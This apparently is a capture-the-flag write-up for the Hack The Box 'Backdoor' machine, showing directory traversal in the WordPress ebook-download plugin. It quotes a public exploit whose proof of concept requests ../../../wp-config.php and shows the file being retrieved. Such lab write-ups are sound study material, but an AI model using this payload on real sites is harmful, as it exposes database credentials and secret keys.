 
## Local File Inclusion / Directory Traversal

Since plugins seem to be a huge deal concerning WordPress vulnerability, I started looking into those. The Akismet link that WPScan provided was broken, so I went to the /wp-content/plugins/ directory to *root* around.  
I found a plugin named "ebook-download" that contained PHP files named 'ebookdownload.php' and 'filedownload.php'. Hmm...  
Searching "ebook" in searchsploit via:

```bash
searchsploit ebook
```
I found the following exploit for an eBook plugin directory traversal:

![eBook Plugin Exploit Search](/assets/images/HTB/backdoor/ebook.jpg)

Let's download it.  

```
# Exploit Title: Wordpress eBook Download 1.1 | Directory Traversal
# Exploit Author: Wadeek
# Website Author: https://github.com/Wad-Deek
# Software Link: https://downloads.wordpress.org/plugin/ebook-download.zip
# Version: 1.1
# Tested on: Xampp on Windows7

[Version Disclosure]
======================================
http://localhost/wordpress/wp-content/plugins/ebook-download/readme.txt
======================================

[PoC]
======================================
/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
======================================
```

Okay, seems simple enough. Let's test it on Backdoor.  
After navigating to *backdoor-IP-address*/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php, I receive a prompt to download wp-config.php... Woohoo!

### **WP-Config.php Contents**

```bash
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the installation.
 * You don't have to use the web site, you can copy this file to "wp-config.php"
 * and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
```